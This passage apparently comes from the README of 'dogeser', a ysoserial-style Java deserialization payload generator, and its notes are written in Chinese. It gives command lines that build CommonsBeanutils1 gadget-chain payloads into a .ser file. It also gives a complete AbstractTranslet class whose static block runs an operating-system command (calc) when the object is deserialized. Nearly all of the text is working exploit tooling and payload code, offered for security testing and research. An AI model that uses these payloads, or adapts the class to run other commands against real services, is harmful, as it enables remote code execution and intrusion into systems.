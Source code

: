 ```http
}
```
```http
java -jar dogeser-0.0.8-SNAPSHOT-all.jar CommonsBeanutils1 codefile:Calc.java
```

<br />[案例](https://gv7.me/articles/2019/enable-ysoserial-to-support-execution-of-custom-code/#0x04-%E6%A1%88%E4%BE%8B)<br />

#### classfile：
类需要继承AbstractTranslet <br />需要区分xalan\xalan\2.7.2\xalan-2.7.2.jar!\org\apache\xalan\xsltc\runtime\AbstractTranslet.class<br />这里需要的是**jdk内置的AbstractTranslet**<br />以弹计算器为例
```java
 java -jar dogeser-0.0.8-SNAPSHOT-all.jar CommonsBeanutils1 classfile:G:\Calc.class>2.ser
```
```java

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

/**
 * @ClassName: Calc
 * @Description: TODO
 * @Author: Summer
 * @Date: 2021/9/10 16:16
 * @Version: v1.0.0
 * @Description:
 **/
public class Calc extends AbstractTranslet {
    public  Calc() {}

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }


    @Override
    public void transform(DOM dom, SerializationHandler[] serializationHandlers) throws TransletException {

    }

}

```

